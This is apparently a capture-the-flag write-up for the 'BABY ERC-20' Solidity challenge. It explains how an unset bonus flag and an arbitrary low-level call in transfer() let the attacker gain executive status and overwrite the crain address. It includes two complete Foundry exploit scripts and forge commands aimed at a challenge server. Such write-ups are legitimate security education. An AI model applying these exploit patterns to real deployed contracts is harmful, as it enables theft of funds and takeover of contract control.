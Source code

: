 # Writeup for BABY ERC-20

- Hello h4ck3r, welcome to the world of smart contract hacking. In order to understand this writeup you need to understand foundry.

### Challenge Description

If only we managed to climb high enough, maybe we can dethrone someone?

### Exploit

Click [here](./src/contracts/) to view the source contracts.

In this challenge our task is make `isSolved()` function return true.

```
function isSolved() public view returns(bool){
    return crain.crain() != address(this);
}
```

The `isSolved()` function returns `true` if the `crain()` function in the `Crain` contract returns an address that is different from the `Setup` contract address.

Now lets look into Crain contract.

```solidity
constructor(address payable _ce) {
    ce = CrainExecutive(_ce);
    crain = msg.sender;
}
```

In the `Crain` contract, `crain` is a public variable that is set to `msg.sender` in the constructor. Since the `Setup` contract deploys the `Crain` contract, `crain` is initially set to the `Setup` contract address.

```
function ascendToCrain(address _successor) public _onlyExecutives{
    crain = _successor;
}
```

The only way we can change the crain address is by calling the ascendToCrain() by passing the new crain address. But it has a modifier \_onlyExecutives. So in order to call this function we need to pass \_onlyExecutives modifier.

```
modifier _onlyExecutives(){
    require(msg.sender == address(ce), "Only Executives can replace");
    _;
}
```

The `_onlyExecutives()` modifier ensures that `msg.sender` (the caller) is the address of `ce` (Crain Executive). The address of `ce` is set in the constructor. The `Setup` contract first deploys the Crain Executive contract and passes the address of Crain Executive as an argument to the constructor of the Crain contract.

The address of `ce` is set in the constructor and is not changed anywhere. Since we cannot change the `ce` address, we won't be able to directly call the `ascendToCrain()` function. The only way to call `ascendToCrain()` is by making the Crain Executive contract call it. Therefore, we need to check if there is any place where the Crain Executive contract directly calls `ascendToCrain()` or makes any low-level calls.

Now let's look into CrainExecutive contract.

```solidity
function transfer(address to, uint256 _amount, bytes memory _message) public _onlyExecutive{
    require(to != address(0), "Invalid Recipient");
    require(balanceOf[msg.sender] - _amount >= 0, "Not enough Credit");
    uint256 totalSent = _amount;
    balanceOf[msg.sender] -= totalSent;
    balanceOf[to] += totalSent;
    (bool transfered, ) = payable(to).call{value: _amount}(abi.encodePacked(_message));
    require(transfered, "Failed to Transfer Credit!");
}
```

The `transfer()` function takes three arguments: an address `to`, a `uint256` `_amount`, and a `bytes` `_message`. It first executes the `_onlyExecutive()` modifier. If the modifier passes, it performs some balance checks. Then, it makes a low-level call to the address `to` with the data `_message` and the value `_amount`.

If we can call the `transfer()` function and pass the address of the `Crain` contract as `to` and the function selector of `ascendToCrain()` as `_message`, then the `crain` address will be changed. However, to call `transfer()`, we need to become the executive.

```solidity
function becomeExecutive() public {
    require(isEmployee[msg.sender] == true && isManager[msg.sender] == true);
    require(balanceOf[msg.sender] >= 5 ether, "Must be that Rich to become an Executive");
    isExecutive[msg.sender] = true;
    }
```

To become an executive, we need to call `becomeExecutive()`. We will only become an executive if we are both an employee and a manager, and our balance in the contract is at least 5 ether.

Now let's look into how to become employee and manager.

```solidity
function becomeEmployee() public {
    isEmployee[msg.sender] = true;
}
```

By calling the `becomeEmployee()` function, we will become an employee.

```solidity
function becomeManager() public _onlyEmployee{
    require(balanceOf[msg.sender] >= 1 ether, "Must have at least 1 ether");
    require(isEmployee[msg.sender] == true, "Only Employee can be promoted");
    isManager[msg.sender] = true;
}
```

To become a manager, we need to call `becomeManager()`. We will only become a manager if we are an employee and our balance in the contract is at least `1 ether`.

Therefore, to become an executive, we need to become both a manager and an employee. To become a manager, we need `1 ether`, and to become an executive, we need `5 ether`. In total, we need `6 ether`.

Now we need to make our balance 6 ether. When I looked into the code, I found two ways to get 6 ether.

```solidity
function claimStartingBonus() public _onlyOnePerEmployee{
    balanceOf[owner] -= 1e18;
    balanceOf[msg.sender] += 1e18;
}
```

The first way is by calling `claimStartingBonus()`. When we call `claimStartingBonus()`, it will execute the `_onlyOnePerEmployee()` modifier. The modifier has a check: `require(hasTakeBonus[msg.sender] == false, "Bonus can only be taken once!");`, but since `hasTakeBonus[msg.sender]` is not updated in the `claimStartingBonus()` function, we will be able to call the function 25 times, as the owner has only 25 ether. However, we actually need only 6 ether to become an executive.

```solidity
function buyCredit() public payable _onlyEmployee{
    require(msg.value >= 1 ether, "Minimum is 1 Ether");
    uint256 totalBought = msg.value;
    balanceOf[msg.sender] += totalBought;
    totalSupply += totalBought;
}
```

The second way is by calling `buyCredit()` function after becoming an employee. In the instance, they have given 7 ether as our wallet balance. So we can directly send 6 ether while calling the `buyCredit()` function, and it will set our balance to 6 ether.

Let's recall all the steps involved to exploit:

Below are the Exploit scripts:

### Script 1: Using `claimStartingBonus()`

1. Get a balance of at least 6 ether by calling `claimStartingBonus()` multiple times.
2. Become an employee by calling `becomeEmployee()`.
3. Become a manager by calling `becomeManager()`.
4. Become an executive by calling `becomeExecutive()`.
5. Call the `transfer` function by passing the address of the `Crain` contract as `to`, call data to invoke `ascendToCrain()` as `_message`, and value as 0. The value should be zero because `ascendToCrain()` is a non-payable function.
6. Call `isSolved()` and verify.

### Script 2: Using `buyCredit()`

1. Become an employee by calling `becomeEmployee()`.
2. Get a balance of 6 ether by calling `buyCredit()` and sending 6 ether.
3. Become a manager by calling `becomeManager()`.
4. Become an executive by calling `becomeExecutive()`.
5. Call the `transfer` function by passing the address of the `Crain` contract as `to`, call data to invoke `ascendToCrain()` as `_message`, and value as 0. The value should be zero because `ascendToCrain()` is a non-payable function.
6. Call `isSolved()` and verify.

Below are the Exploit scripts

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {Setup} from "src/contracts/Setup.sol";

contract ExploitExecutive is Script {
    Setup public setup;

    function run() public {
        vm.startBroadcast();
        setup = Setup(0xD3AC2f52E7dCCe686BA20aD048079e094A047CEf);
        for (uint256 i = 0; i < 6; i++) {
            setup.cexe().claimStartingBonus();
        }
        setup.cexe().becomeEmployee();
        setup.cexe().becomeManager();
        setup.cexe().becomeExecutive();
        bytes memory data = abi.encodeWithSignature("ascendToCrain(address)", address(this));
        setup.cexe().transfer(address(setup.crain()), 0, data);
        vm.stopBroadcast();
    }
}

```

```shell
$ forge script script/ExploitExecutive.s.sol:ExploitExecutive1 --rpc-url http://ctf.tcp1p.team:44455/01921e42-61fb-498e-8533-12498c9f96b2 --broadcast -i 1
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {Setup} from "src/contracts/Setup.sol";

contract ExploitExecutive is Script {
    Setup public setup;

    function run() public {
        vm.startBroadcast();
        setup = Setup(//YOUR__SETUP__ADDR);
        setup.cexe().becomeEmployee();
        setup.cexe().buyCredit{value: 6 ether}();
        setup.cexe().becomeManager();
        setup.cexe().becomeExecutive();
        bytes memory data = abi.encodeWithSignature("ascendToCrain(address)", address(this));
        setup.cexe().transfer(address(setup.crain()), 0, data);
        vm.stopBroadcast();
    }
}
```

```shell
$ forge script script/ExploitExecutive.s.sol:ExploitExecutive2 --rpc-url http://ctf.tcp1p.team:44455/01921e42-61fb-498e-8533-12498c9f96b2 --broadcast -i 1
```

Any of the above two scripts will work; you can use either one. The only difference between the two scripts is how we get the ether. I hope you This writeup is helpful.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
